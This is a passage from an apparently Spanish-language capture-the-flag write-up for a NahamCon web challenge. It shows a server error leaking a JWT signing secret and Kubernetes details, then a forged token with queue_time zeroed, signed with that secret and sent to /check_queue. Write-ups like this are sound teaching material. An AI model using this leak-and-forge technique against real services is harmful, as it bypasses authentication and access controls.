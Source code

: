 **Respuesta:**

```sh
HTTP/1.1 500 INTERNAL SERVER ERROR
Server: Werkzeug/3.1.3 Python/3.9.22
Date: Sat, 24 May 2025 17:05:03 GMT
Content-Type: application/json
Content-Length: 1080
Connection: close

{
"error":"An unexpected error occurred",
"error_details":
  {"debug_mode":false,
   "environment":
    {
      "GPG_KEY":"E3FF2839C048B25C084DEBE9B26995E310250568",
      "HOME":"/root",
      "HOSTNAME":"infinite-queue-0ca560b3c629abff-6466846744-2qdnw",
      "JWT_SECRET":"4A4Dmv4ciR477HsGXI19GgmYHp2so637XhMC",
      "KUBERNETES_PORT":"tcp://34.118.224.1:443",
      "KUBERNETES_PORT_443_TCP":"tcp://34.118.224.1:443",
      "KUBERNETES_PORT_443_TCP_ADDR":"34.118.224.1",
      "KUBERNETES_PORT_443_TCP_PORT":"443",
      "KUBERNETES_PORT_443_TCP_PROTO":"tcp",
      "KUBERNETES_SERVICE_HOST":"34.118.224.1",
      "KUBERNETES_SERVICE_PORT":"443",
      "KUBERNETES_SERVICE_PORT_HTTPS":"443",
      "LANG":"C.UTF-8",
      "PATH":"/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","PYTHON_SHA256":"8c136d199d3637a1fce98a16adc809c1d83c922d02d41f3614b34f8b6e7d38ec","PYTHON_VERSION":"3.9.22","WERKZEUG_SERVER_FD":"3"},"error":"Invalid crypto padding","request_data":{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiYUBhLmEiLCJxdWV1ZV90aW1lIjoxNzYwNzkzMzIyLjQwNTUxNywiZXhwIjo1MzQ4MTAyMDYyfQ.ymFVmpr70Q4-TycbU"},"time":"2025-05-24T17:05:03.023602"
  }
}
```

¡Bingo! Ya podemos forjar nuestro token. Dado que lo que parece determinar
si seguimos en espera es el _claim_ `queue_time`, entonces lo modificamos
con el valor `00000.00000`. Podemos firmar nuestro token con el secreto
obtenido y enviarlo:

**Petición:**

```sh
POST /check_queue HTTP/1.1
Host: challenge.nahamcon.com:31075
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge.nahamcon.com:31075/queue
Content-Type: application/x-www-form-urlencoded
Content-Length: 158
Origin: http://challenge.nahamcon.com:31075
Connection: keep-alive
Priority: u=4

token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiYUBhLmEiLCJxdWV1ZV90aW1lIjowLjEsImV4cCI6NTM0ODAzNjQ5MH0.A-KeWH05z3ZmQo22_XbzB67LV7ITw_hrAPlFxunQ3aU
```
